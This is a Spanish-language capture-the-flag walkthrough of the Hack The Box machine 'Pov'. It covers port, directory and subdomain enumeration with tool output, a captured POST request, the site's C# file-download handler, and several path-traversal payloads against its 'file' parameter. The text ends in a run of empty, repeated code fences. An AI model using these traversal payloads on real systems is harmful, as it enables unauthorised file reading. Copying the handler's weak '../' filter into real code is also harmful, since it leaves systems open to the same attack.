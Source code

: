 ## <code style="color : Aquamarine">POV</code>

<style>
    .codenobutton button {
        display: none;
}
</style>

```shell
cd /htb/machines/pov/nmap
ping 10.129.108.177

```
#Linux (TTL -> 64) | Windows (TTL->128)

```shell
ping -c 1 10.129.108.177 -R   
```

Ejecutamos nmap para scanear todos los puertos y guardarlo en un archivo allPorts

```javascript
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn  10.129.108.177 -oG allPorts
```

Obtenemos:

```codenobutton
┌─[user@parrot]─[~/htb/machines/pov/nmap]
└──╼ $cat allPorts 
# Nmap 7.94SVN scan initiated Thu Jun 20 17:49:58 2024 as: nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG allPorts 10.129.108.177
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.129.108.177 ()	Status: Up
Host: 10.129.108.177 ()	Ports: 80/open/tcp//http///	Ignored State: filtered (65534)
# Nmap done at Thu Jun 20 17:50:25 2024 -- 1 IP address (1 host up) scanned in 26.50 seconds
```
Analizamos mas el puerto 80
```javascript
sudo nmap -sCV -p80 10.129.108.177 -oN targeted
```
Resultados
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-20 21:25 UTC
Nmap scan report for 10.129.108.177
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-title: pov.htb
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.74 seconds
```
Lanzamos whatweb para determinar las tecnologias que se usan
```javascript
whatweb http://10.129.108.177
```
Obtenemos:
> [!NOTE]
> http://10.129.108.177 [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[sfitz@pov.htb], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.129.108.177], Microsoft-IIS[10.0], Script, Title[pov.htb], X-Powered-By[ASP.NET]

```bash
ping -c 1 pov.htb
echo "10.129.108.177   pov.htb" >> /etc/hosts

```
Nos vamos a la url: http://pov.htb y no observamos algo extranio, y analizaremos sub directorio, si no tenemos el diccionario se declist lo instalamos.
```bash
sudo apt install seclists
gobuster dir -u http://pov.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 --no-error
```
Obtenemos:

```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 142] [--> http://pov.htb/img/]
/css                  (Status: 301) [Size: 142] [--> http://pov.htb/css/]
/js                   (Status: 301) [Size: 141] [--> http://pov.htb/js/]
/IMG                  (Status: 301) [Size: 142] [--> http://pov.htb/IMG/]
/*checkout*           (Status: 400) [Size: 3420]
/CSS                  (Status: 301) [Size: 142] [--> http://pov.htb/CSS/]
/Img                  (Status: 301) [Size: 142] [--> http://pov.htb/Img/]
/JS                   (Status: 301) [Size: 141] [--> http://pov.htb/JS/]
/*docroot*            (Status: 400) [Size: 3420]

```bash
wfuzz -c --hh=12330 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.pov.htb" http://pov.htb

```
```bash
=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000019:   302        1 L      10 W       152 Ch      "dev"                                                               
000009532:   400        6 L      26 W       334 Ch      "#www"                                                              
000010581:   400        6 L      26 W       334 Ch      "#mail"                                                             
000047706:   400        6 L      26 W       334 Ch      "#smtp" 
```
Agregamos el subdominio dev al /etc/hosts y lanzamos curl
```bash
echo "10.129.108.177   dev.pov.htb" >> /etc/hosts
curl -s -X GET http://dev.pov.htb
```

Obtenemos

```html
<head><title>Document Moved</title></head>
<body><h1>Object Moved</h1>This document may be found <a HREF="http://dev.pov.htb/portfolio/">here</a></body>
```

Nos redirige al portafolio y abrimos para investigar el sitio, usamos whatweb para saber

```bash
whatweb http://dev.pov.htb
```

Obtenemos

```h
http://dev.pov.htb [302 Found] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/10.0], IP[10.129.108.177], Microsoft-IIS[10.0], RedirectLocation[http://dev.pov.htb/portfolio/], Title[Document Moved], X-Powered-By[ASP.NET]
http://dev.pov.htb/portfolio/ [200 OK] ASP_NET[4.0.30319], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.129.108.177], JQuery[3.4.1], Meta-Author[Devcrud], Microsoft-IIS[10.0], Script, Title[dev.pov.htb], X-Powered-By[ASP.NET]
```
https://infosecmachines.io
navegamos a  http://dev.pov.htb/portfolio

```


```bash
echo "10.129.185.102   dev.pov.htb" >> /etc/hosts
gobuster dir -u http://dev.pov.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x aspx
gobuster dir -u http://dev.pov.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x aspx --exclude-length 188
```

Y obtenemos 302, es decir todo redirecciona. mas info en https://http.cat/

```bash
gobuster dir -u http://dev.pov.htb/portfolio -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x | grep -v "302"
```
y obtenemos algunos directorios al cual navegamos por contact.aspx y default.aspx

```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/contact.aspx         (Status: 200) [Size: 4691]
/default.aspx         (Status: 200) [Size: 21371]
/Default.aspx         (Status: 200) [Size: 21371]
/assets               (Status: 301) [Size: 159] [--> http://dev.pov.htb/portfolio/assets/]
/Contact.aspx         (Status: 200) [Size: 4691]
/Assets               (Status: 301) [Size: 159] [--> http://dev.pov.htb/portfolio/Assets/]
```
Descargamos el cv y analizamos los metadatos, tenemos en cuenta el nombre del usuario por si sea necesario.
```bash
┌─[root@htb-adqnh87wfy]─[/home/outlanderlat/Downloads]
└──╼ #exiftool cv.pdf 
ExifTool Version Number         : 12.57
File Name                       : cv.pdf
Directory                       : .
File Size                       : 148 kB
File Modification Date/Time     : 2024:06:26 17:07:00-05:00
File Access Date/Time           : 2024:06:26 17:07:00-05:00
File Inode Change Date/Time     : 2024:06:26 17:07:00-05:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.7
Linearized                      : No
Page Count                      : 1
Language                        : es
Tagged PDF                      : Yes
XMP Toolkit                     : 3.1-701
Producer                        : Microsoft® Word para Microsoft 365
Creator                         : Turbo
Creator Tool                    : Microsoft® Word para Microsoft 365
Create Date                     : 2023:09:15 12:47:15-06:00
Modify Date                     : 2023:09:15 12:47:15-06:00
Document ID                     : uuid:3046DD6C-A619-4073-9589-BE6776F405F2
Instance ID                     : uuid:3046DD6C-A619-4073-9589-BE6776F405F2
Author                          : Turbo

```
Vamos a analizar con burbsuite los parametros que se envian. Al ser un IS los datos que estan en base64 y forma serializada no se pueden alterar, y lo mas interesante es el campo file=cv.pf podemos intentar poner la ruta de otro archivo, 

```bash
POST /portfolio/ HTTP/1.1
Host: dev.pov.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://dev.pov.htb/portfolio/
Content-Type: application/x-www-form-urlencoded
Content-Length: 357
Origin: http://dev.pov.htb
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

__EVENTTARGET=download&__EVENTARGUMENT=&__VIEWSTATE=trcOk8TIs76tiflYimAQ1oYz2NoLl4kVSUYEj%2BOntg5k8qx4Nm2e0e%2Fmp%2FPGZBgSb3iMHpgWJwxC3ZLwcmZ%2BpPiU5Qw%3D&__VIEWSTATEGENERATOR=8E0F0FA3&__EVENTVALIDATION=vbnHgOARiUCUU42ZGjbprRqOq6O5ObtrthU79l7HTPQLB4RVOAurebcJApvQU6wdqHeOW0XV4AUhDTADmcCgYU6rx2jLWHzJqpl4NWNAbZ2LP%2Bb8JBdRVeAP9sGHD2acXLUKgQ%3D%3D&file=cv.pdf
```
Enviamos el repeater y intentamos acceder al archivo default.aspx y en el codigo observamos un archivo index.aspx.cs ingresamos a este y analizamos el codigo
```css
using System;
using System.Collections.Generic;
using System.Web;
using System.Web.UI;
using System.Web.UI.WebControls;
using System.Text.RegularExpressions;
using System.Text;
using System.IO;
using System.Net;

public partial class index : System.Web.UI.Page {
    protected void Page_Load(object sender, EventArgs e) {

    }
    
    protected void Download(object sender, EventArgs e) {
            
        var filePath = file.Value;
        filePath = Regex.Replace(filePath, "../", "");
        Response.ContentType = "application/octet-stream";
        Response.AppendHeader("Content-Disposition","attachment; filename=" + filePath);
        Response.TransmitFile(filePath);
        Response.End();
        
    }
}
```
en la variable filePath encontramos una medidad de seguridad para evitar ir varias rutas hacia atras (directory path transversal) con el formato ../ pero tenemos varias formas de variar esto por ejemplo:

```bash
file=..\..\..\..\..\windows\System32\Drives\etc\hosts
file=../../../../../windows/System32/Drives/etc/hosts
file=c:\Windows\System32\Drivers\etc\hosts
```
El ultimo si funciona, con la ruta directa.
```bash```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
